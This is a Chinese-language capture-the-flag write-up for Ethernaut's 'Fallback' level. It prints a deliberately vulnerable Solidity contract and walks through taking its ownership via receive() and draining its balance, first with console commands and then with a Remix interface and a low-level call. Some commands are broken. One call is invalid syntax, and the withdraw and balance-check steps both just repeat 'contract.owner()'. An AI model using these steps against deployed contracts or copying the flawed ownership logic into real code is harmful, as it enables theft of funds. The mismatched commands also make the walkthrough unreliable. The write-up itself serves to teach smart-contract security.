



# level1 fallback

## 1. 问题

将下面合约的owner改成自己、并且将合约的余额清空

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## 2. 解法

注意到Fallback合约有一个 `receive()` 函数可以修改owner，只要在该函数被调用前母本地址的贡献大于0即可。所以我们通过下面的流程解决：
一. 先用EOA账户调用`contribute()`注资，使得EOA的contributions大于0
二. 使用EOA调用合约的`receive()`函数，获取owner权限
三. 再成为owner后，用EOA调用`withdraw()`接口取回合约里的所有eth


### 2.1 解法1：ethernaut命令行
详细执行步骤如下：
1. 使用EOA账户调用`contribute()`注资0.0009 eth
  1. 使用ethernaut的命令行执行
```bash
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')});
```
  * 执行后会唤起metamask对交易进行签名，发起[Holesky交易](https://holesky.etherscan.io/tx/0x254f1b4b40bf2640e8f3365e9abe21dfc49b4d18f6bdca88c700a5f63e64d532)
2. 使用EOA账户调用`receive()`随便注资一点，以获取owner权限
```bash
await contract.({from: player, value: toWei('0.000001')});
```
  * 执行后会唤起metamask对交易进行签名，发起[Holesky交易](https://holesky.etherscan.io/tx/0xf1a8172b4025f6f614e42cc58e29d5faa9a94142f5b0846bc1b04394f338bd2a)
  
3. 查询下当前owner, 确认已经变成我们自己了：
```bash
await contract.owner()
```

4. 调用`withdraw()`接口取回合约里的所有eth：
```bash
await contract.owner()
```

5. 查询一下当前合约的余额, 发现确实为0
```bash
// 也可以打开区块链浏览器直接看合约的余额
await contract.owner()
```

6. 点击 `submit instance`， 提交通过！


### 2.2 解法2：使用remix和合约交互
1. 因为我们不需要部署fallback合约，所以我们将fallback的逻辑切换成interface，然后在remix上编译:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 将原始合约定义成 interface，方便自己写的合约调用
interface Fallback {
    // 原始合约中的public变量, 作为interface引入时，有一个对应方法可以调用
    // mapping(address => uint256) public contributions;
    function contributions(address user) external view returns(uint256);
    
    // 原始合约中的public变量, 作为interface引入时，有一个对应方法可以调用
    // address public owner;
    function owner() external view returns (address);

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function contribute() external payable;

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function getContribution() external view returns (uint256);

    // 因为interface没有内部逻辑，所以不存在内部调用，原始合约中public必须改成external
    function withdraw() external;
}
```
2. 编译完成后，在部署页选择`At Address`, 填入ethernaut后台获取到的合约地址。会在下面`Deployed Contracts`中天街一个实例，里面有我们定义的接口。



3. 在`VALUE`中填入 `900Gwei`,然后点击 `contribute`函数，唤起metamask[提交交易](https://sepolia.etherscan.io/tx/0x7adfa062698091a12866560e46c95a3ff0d5323882e6f4521d995e3684c8272e)

4. 如果想要给合约转入eth触发合约的`fallback()`执行，正常来说应该通过代码`address(XXX).call{value: 0.0009 ether}("");`，但是interface里面没有这个接口，所以我们使用`low level interactions`, 输入1wei，点击transact, 唤起metamask[提交交易](https://sepolia.etherscan.io/tx/0xbe66ef804998d02c760774628b4cc1d5ac27ba1e160a779dba6b1a400e215e9a)


   a. 这里面我们什么参数都不用填, 相当于调用selector为`0x00000000`的函数。因为Fallback合约中的函数selector基本不可能出现 `0x00000000`, 所以会调用 Fallback 合约的`receive()` 函数默认去处理，从而触发owner切换
   
5. 点击`owner()`函数，发现确实已经切换了



6. 点击`withdraw`[提交交易](https://sepolia.etherscan.io/tx/0xb6a86b89e5334eaa067202a63016ab9063bceb83d524490b8c4ceba231dd4878)取走所有的余额

7. 点击 `submit instance`， 提交通过！
